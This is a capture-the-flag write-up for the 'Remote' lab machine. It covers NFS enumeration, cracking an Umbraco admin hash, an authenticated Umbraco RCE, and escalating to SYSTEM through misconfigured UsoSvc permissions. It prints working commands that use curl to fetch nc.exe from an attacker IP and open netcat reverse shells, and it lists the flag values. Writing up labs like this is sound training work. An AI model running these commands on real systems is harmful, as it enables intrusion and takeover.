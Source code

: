 # Summary
- Takeaways:
    - abusing misconfigured service privileges to replace the binary they run can lead to privilege escalation
- User: mount NFS and search for admin password in retrieved binary, use authenticated RCE exploit in Umbraco
- Root: misconfigured privileges on UsoSvc service allow for binary execution as `nt authority\system`

# Details
### User: 6646cb937970c1d84b764598f9091132
- Nmap scan reveals ports 21, 80, 111, 135, 139, 445, 2049, 5985, 47001, and 49664-49680 are open
- port 2049 hosts an NFS share that can be checked with `showmount -e remote.htb` and then mounted with `sudo mount -t nfs remote.htb:/site_backups ./site_backups`
- binary file located at `site_backup/App_Data/Umbraco.sdf` contains the hash `b8be16afba8c314ad33d812f22a04991b90e2aaa` and information relating to a login attempt with `admin@htb.local` than can all be viewed with `strings`
- cracking the hash reveals the password for `admin@htb.local` to be be `baconandcheese`
    - https://crackstation.net/
- use Umbraco authenticated RCE exploit to execute commands
    - https://github.com/noraj/Umbraco-RCE
- upload `nc.exe` and spawn a reverse shell
    - `python umbraco-exploit.py -u admin@htb.local -p baconandcheese -i http://remote.htb -c powershell.exe -a 'cd /Windows/Temp; curl 10.10.14.41:8000/nc.exe -o nc.exe'`
    - `python umbraco-exploit.py -u admin@htb.local -p baconandcheese -i http://remote.htb -c powershell.exe -a '/Windows/Temp/nc.exe 10.10.14.41 9405 -e powershell.exe'`

### Root: 9f8e41d45a0763b247eecc22e06ccd35
- running `PowerUp.ps1` reveals that the `UsoSvc` service has improperly configured access rights
    - upload `PowerUp.ps1` to target and then import its function with `import-module ./PowerUp.ps1`
- attempting to replace the `binPath` binary and then restarting the service according to the `payloadallthethings` cheatsheet doesn't work
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20:/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services
- attempting to restart the service with `wmic service NAMEOFSERVICE call startservice` also doesn't work
    - https://guif.re/windowseop
- `PowerUp.ps1` function `Invoke-ServiceAbuse -name 'UsoSvc' -command "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.41 9406"` works, but unsure why it does and other methods don't
- also a potential exploit in TeamViewer service
